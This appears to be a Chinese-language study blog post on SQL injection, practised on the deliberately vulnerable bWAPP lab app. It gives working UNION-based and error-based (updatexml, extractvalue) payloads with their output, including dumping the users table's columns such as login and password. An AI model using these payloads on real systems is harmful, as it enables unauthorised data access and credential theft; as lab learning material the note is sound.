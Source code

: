 ```yaml
---
title: "简单sql注入学习"
date: 2021-08-17T13:48:22+08:00
draft: false
author: LYR
---
```




## sql 注入学习





### sql注入猜解

```sql
-- 猜字段数
union select 1,2 --
-- 猜数据库
select schema_name from database.schemata

-- 猜数据表列
select * from table_name
select table_name from database.tables where
 table_schema = "aaa"
-- 获取某列内容
select * from column_name

```



## bwapp使用



1. 访问 /install.php 初始化应用
2. 点击  sql injection(get/search) 练习



输入 1'  进行搜索 

结果：`Error: You have an error in your SQL syntax; check the manual that  corresponds to your MySQL server version for the right syntax to use  near '%'' at line 1`



输入： `' union select 1,2,user(),4,5,6,7 -- '`



| World War Z | 2013           | Gerry Lane | horror | [Link](http://www.imdb.com/title/tt0816711) |
| ----------- | -------------- | ---------- | ------ | ------------------------------------------- |
| 2           | root@localhost | 5          | 4      | [Link](http://www.imdb.com/title/6)         |

后面返回结果如图



| 常用函数                  |            |
| ------------------------- | ---------- |
| database()                | 数据库名字 |
| user()                    | 用户       |
| table_name                | 表名       |
| version()                 | 版本号     |
| information_schema.tables | 元信息     |



### 获取数据库信息

```sql
' union  select 1,user(),table_name,version(),database(),6,7 from information_schema.tables where table_schema=database() -- '
```

得到结果如下



| root@localhost | blog     | bWAPP | 5.5.47-0ubuntu0.14.04.1 | [Link](http://www.imdb.com/title/6) |
| -------------- | -------- | ----- | ----------------------- | ----------------------------------- |
| root@localhost | heroes   | bWAPP | 5.5.47-0ubuntu0.14.04.1 | [Link](http://www.imdb.com/title/6) |
| root@localhost | movies   | bWAPP | 5.5.47-0ubuntu0.14.04.1 | [Link](http://www.imdb.com/title/6) |
| root@localhost | users    | bWAPP | 5.5.47-0ubuntu0.14.04.1 | [Link](http://www.imdb.com/title/6) |
| root@localhost | visitors | bWAPP | 5.5.47-0ubuntu0.14.04.1 | [Link](http://www.imdb.com/title/6) |



```sql
'union select 1,group_concat(column_name),user(),4,5,6,7 from information_schema.columns where table_name='users' -- '
```



得到表信息

| World War Z                                                  | 2013           | Gerry Lane | horror | [Link](http://www.imdb.com/title/tt0816711) |
| ------------------------------------------------------------ | -------------- | ---------- | ------ | ------------------------------------------- |
| id,login,password,email,secret,activation_code,activated,reset_code,admin | root@localhost | 5          | 4      | [Link](http://www.imdb.com/title/6)         |





### 删库测试



```sql
#  尝试构建脚本
'   union  select 1,2,3,4,5,6,7   --'
# 原理： select * from movies  where title like ''   union  select 1,2,3,4,5,6,7   --' 
'   union  select 1,2,3,( select 'fuck') ,5,6, 7  --'


 iron ' union  select 1,2,3,4,5,6,7    #
 iron ' union  select 1,2,user(),@@version,5,6,7    #
Iron Man' AND 0 UNION SELECT 1,2,3,4,5,6,7 #

```



### 查询数据库版本

```sql
Olivia' or updatexml(1,concat(0x7e,(version())),0) or '
```

### 查询数据库

```sql
Olivia' or extractvalue(1,concat(0x7e,database())) or '
```





